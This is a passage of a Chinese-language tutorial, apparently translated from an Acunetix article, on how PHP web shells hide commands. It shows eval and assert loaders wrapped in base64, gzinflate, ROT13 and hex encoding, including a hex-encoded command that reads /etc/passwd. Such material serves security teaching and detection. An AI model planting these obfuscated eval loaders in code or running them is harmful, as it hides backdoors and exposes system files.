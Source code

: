     <code>eval() - 将给定字符串计算为PHP代码的函数。
    assert() - 将给定字符串计算为PHP代码的函数。
    base64() - 使用MIME base64编码对数据进行编码
    gzdeflate() - 使用DEFLATE数据格式压缩字符串。gzinflate（）解压缩它
    str_rot13() - 将给定字符串中的每个字母移位到字母表中的13个位置
    </code>


下面的示例将得到同样的结果，混淆思路多样，难以应对。

    
    <code><?php
      // Evaluates the string "system('ls -la');" as PHP code
      eval("system('ls -la');");
    
      // Decodes the Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code
      eval(base64_decode("c3lzdGVtKCdscyAtbGEnKTsNCg=="));
    
      // Decodes the compressed, Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code
      eval(gzinflate(base64_decode('K64sLknN1VDKKVbQzUlU0rQGAA==')));
    
      // Decodes the compressed, ROT13 encoded, Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code
    eval(gzinflate(str_rot13(base64_decode('K64sLlbN1UPKKUnQzVZH0rQGAA=='))));
    
      // Decodes the compressed, Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code
      assert(gzinflate(base64_decode('K64sLknN1VDKKVbQzUlU0rQGAA==')));
    ?>
    </code>


![](http://www.acunetix.com/wp-content/uploads/2016/06/image02.png)


### 使用Hex作为混淆技术


ASCII字符的十六进制值也可以用于进一步模糊web shell命令。

让我们以下面的字符串为例。

    
    <code>system('cat /etc/passwd');
    </code>


以下是以上字符串的十六进制值。

    
    <code>73797374656d2827636174202f6574632f70617373776427293b
    </code>


以下代码可用于接受十六进制编码的字符串，并将其评估为PHP代码。

    
    <code><?php <br ?--> // function that accepts a hex encoded data
    function dcd($hex){
    // split $hex
    for ($i=0; $i < strlen($hex)-1; $i+=2){ 
    //run hexdec on every two characters to get their decimal representation which will be then used by char() to find the corresponding ASCII character
    $string .= chr(hexdec($hex[$i].$hex[$i+1])); 
    } 
    // evaluate/execute the command 
    eval($string); 
    } 
    dcd('73797374656d2827636174202f6574632f70617373776427293b'); 
    ?>
    </code>
